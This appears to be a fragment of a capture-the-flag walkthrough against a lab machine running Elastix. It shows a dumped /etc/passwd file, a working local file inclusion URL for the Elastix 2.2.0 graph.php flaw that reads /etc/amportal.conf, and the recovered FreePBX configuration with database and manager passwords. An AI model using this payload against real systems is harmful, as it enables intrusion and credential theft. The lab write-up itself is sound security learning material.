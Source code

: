 ```
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash distcache:x:94:94:Distcache:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin pcap:x:77:77::/var/arpwatch:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash dbus:x:81:81:System message bus:/:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin spamfilter:x:500:500::/home/spamfilter:/bin/bash haldaemon:x:68:68:HAL daemon:/:/sbin/nologin xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin fanis:x:501:501::/home/fanis:/bin/bash
```

Elastix 2.2.0 - 'graph.php' Local File Inclusion 
* https://www.exploit-db.com/exploits/37637
* https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

Getting a more promising list below with users names and passwords
```
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# AMPBIN: Location of the FreePBX command line scripts
# AMPSBIN: Location of (root) command line scripts
#
AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin

# AMPWEBROOT: Path to Apache's webroot (leave off trailing slash)
# AMPCGIBIN: Path to Apache's cgi-bin dir (leave off trailing slash)
# AMPWEBADDRESS: The IP address or host name used to access the AMP web admin
#
AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin 
# AMPWEBADDRESS=x.x.x.x|hostname

# FOPWEBROOT: Path to the Flash Operator Panel webroot (leave off trailing slash)
# FOPPASSWORD: Password for performing transfers and hangups in the Flash Operator Panel
# FOPRUN: Set to true if you want FOP started by freepbx_engine (amportal_start), false otherwise
```